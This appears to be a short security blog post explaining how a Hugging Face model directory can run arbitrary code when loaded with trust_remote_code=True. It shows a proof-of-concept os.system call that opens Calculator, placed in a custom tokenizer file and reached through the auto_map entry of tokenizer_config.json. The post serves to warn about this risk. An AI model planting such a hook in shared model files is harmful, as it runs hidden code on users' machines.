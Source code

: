 ```yaml
---
layout: post
title:  Beginner Level: Backdoor llm through from_pretrained
tags: [llm,backdoor]
---
```


You cloned the code from github. And you downloaded the model file from some website. You run the demo code. Then you got calced.
This is the demo code taken from `***`. Is it safe to run the code?  
```python
tokenizer = AutoTokenizer.from_pretrained("./model-int4/", trust_remote_code=True)
```
It's safe, is it?
# How to backdoor through from_pretrained function?

if you add this code in the file `tokenization_demogpt.py` in the model directory, it will execute.  
```python
import os
os.system('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
Let's examine the function.
(from_pretrained)[https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/models/auto/tokenization_auto.py#L568]

```
trust_remote_code (`bool`, *optional*, defaults to `False`):
                Whether or not to allow for custom models defined on the Hub in their own modeling files. This option
                should only be set to `True` for repositories you trust and in which you have read the code, as it will
                execute code present on the Hub on your local machine.
```
If trust_remote_code is set to True, it will execute code on your local machine.  

If you read code, you can see that the code will load the `tokenizer_config.json`. (TOKENIZER_CONFIG_FILE = "tokenizer_config.json")[https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/tokenization_utils.py#L49]
```json
{
  "name_or_path": "******",
  "remove_space": false,
  "do_lower_case": false,
  "tokenizer_class": "DemoTokenizer",
  "auto_map": {
    "AutoTokenizer": [
      "tokenization_demogpt.DemoTokenizer",
      null
      ]
  }
}
```
Finally, it will read `auto_map` key. In the end, it will load `tokenization_demogpt`. Then our code will execute.


# What to do
Always check the model files. Load from trusted websites. Will you? Do you have the energy to do it?


## code
(register_for_auto_class)[https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/modeling_utils.py#L3751]
(get_class_from_dynamic_module)[https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/dynamic_module_utils.py#L378C15-L378C15]

